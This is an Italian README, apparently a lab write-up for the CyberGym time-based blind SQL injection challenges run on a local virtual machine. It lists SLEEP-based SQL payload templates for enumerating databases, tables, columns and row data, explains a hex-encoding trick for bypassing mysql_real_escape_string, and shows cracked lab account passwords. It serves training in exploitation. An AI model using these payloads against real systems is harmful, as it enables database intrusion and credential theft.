 ## Time based blind SQLi

La challenge prevede la preparazione di uno script in linguaggio a piacere (ho scelto il python) per l'exploit della vulnerabilità
che permette SQLi di tipo Time-based blind su due pagine del progetto [CyberGym](https://github.com/AvalZ/cyber-gym) 
(nel mio caso installato su una macchina virtuale eseguita in locale).

Lo svolgimento della prima challenge si può trovare [qui](Time-Based_Blind.md)

Lo svolgimento della seconda [qui](Time-Based_Blind_escaped.md)

Lo script scritto per la loro risoluzione è il [blind_sqli.py](blind_sqli.py) (python 3) presente nel repository.

I dati di login recuperati dalla tabella accounts sono i seguenti:

email            | password(sha1)                           | password in chiaro
-----------------|------------------------------------------|-------------------
arthur@guide.com | d00ee262cdcbe7543210bb85f6f1cac257b4e994 | Bathrobe
ford@guide.com   | 30f5cc99c17426a0d28acf8905c6d776039ad022 | Betelgeuse
tricia@guide.com | bcb3358e273b5772ee0ae1799b612e13cc726b04 | Trillian
zaphod@guide.com | 0c38530eaca4dbc0f49c459c0c52b362f14215c3 | Pan-GalacticGargleBlaster

Le password in chiaro sono state ottenute attraverso lo script [Hash Buster v3.0](https://github.com/s0md3v/Hash-Buster)

Per entrambe le challenge è stato usato lo stesso numero di coppie di query, per le quali è stato modificato il "wrapping"
in modo da generare il payload a seconda della tipologia di parametro che si andava a sfruttare:

1. recupero database:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_databases FROM information_schema.schemata)x WHERE x.n_databases = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT schema_name FROM information_schema.schemata LIMIT {},1)x WHERE MID(x.schema_name,{},1) = {} AND SLEEP(0.1)"
2. recupero nomi tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_tables FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + "))x WHERE x.n_tables = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT table_name FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + ") LIMIT {},1)x WHERE MID(x.table_name,{},1) = {} AND SLEEP(0.1)"
3. recupero nomi colonne e tipo dato nelle tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_columns FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + "))x WHERE x.n_columns = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT CONCAT(column_name,"+hex(ord(':'))+",column_type) AS column_info FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + ") LIMIT {},1)x WHERE MID(x.column_info,{},1) = {} AND SLEEP(0.1)"
4. recupero dati presenti nelle colonne passate in input:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_rows FROM  " + db + '.' + table + ")x WHERE n_rows = {} AND SLEEP(0.1)"
	- extracton: "SELECT * FROM(SELECT CONCAT(" + columns_concat + ") AS data FROM " + db + '.' + table + " LIMIT {},1)x WHERE MID(x.data,{},1) = {} AND SLEEP(0.1)"
	
dove:
- database_hex: lista dei caratteri, separati da virgola, in codifica esadecimale da passare a concat per il bypass di mysql_real_escape_string
- table_hex: stessa cosa, ma per il nome della tabella passata in input
	
Infine, dall'analisi del jitter delle risposte ho notato che (nel mio ambiente locale, virtualizzato) questo era molto oscillante, ma comunque
si attestava sempre sotto i 0.1 secondi, portandomi a supporre questo valore come sufficiente per una corretta estrazione dei risultati cercati
per entrambe le challenge

Ho incluso nel repository due file .sh che riepilogano tutti i passaggi necessari per l'estrazione.
